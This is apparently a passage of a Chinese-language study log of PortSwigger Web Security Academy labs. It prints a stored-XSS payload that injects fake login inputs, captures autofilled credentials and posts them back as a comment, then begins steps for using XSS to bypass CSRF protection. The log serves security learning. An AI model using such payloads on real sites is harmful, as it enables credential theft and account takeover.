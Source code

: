 ```html
          credentials: "include",
        },
      );
    });
  });
</script>
```

6. 改成直接注入 `<input>`，成功拿到 `{"username":"administrator","password":"6g7n2wu1j8p490o2iss4"}`

```html
<script>
  function handlePasswordChange() {
    const username = document.querySelector("input[name='username']").value;
    const password = document.querySelector("input[name='password']").value;
    const csrf = document.querySelector("input[name='csrf']").value;
    const cookie = document.cookie;
    fetch(
      "https://0a34009004a74700e417261e007f005f.web-security-academy.net/post/comment",
      {
        headers: {
          "content-type": "application/x-www-form-urlencoded",
        },
        body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
        method: "POST",
        mode: "cors",
        credentials: "include",
      },
    );
  }
</script>
<input type="username" name="username" />
<input type="password" name="password" onchange="handlePasswordChange()" />
```

我覺得我好蠢，想了 `<iframe>` 跟 `window.open` 這兩招，卻沒有想到可以直接插入 `<input>`

但這題的解法，也讓我想要重新認識瀏覽器 autofill 的安全性機制



1. 透過 `<iframe>` 開啟的登入頁，會有 autofill 的功能嗎？
2. 透過 `window.open` 開啟的登入頁，會有 autofill 的功能嗎？

## Lab: Exploiting XSS to bypass CSRF defenses

| Dimension | Description                                                                                                                     |
| --------- | ------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/exploiting#exploiting-cross-site-scripting-to-bypass-csrf-protections |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf                                           |

1. 找到 Comment 欄位沒有防護，可注入 `<script>`
2. 找到 CRSF Token 是在 `<input required="" type="hidden" name="csrf" value="p53YpGIoVu9mrEgUwXDkQOpCi1AyxfcT">`
3. 把更改 email 的 request 複製下來，貼到留言內容
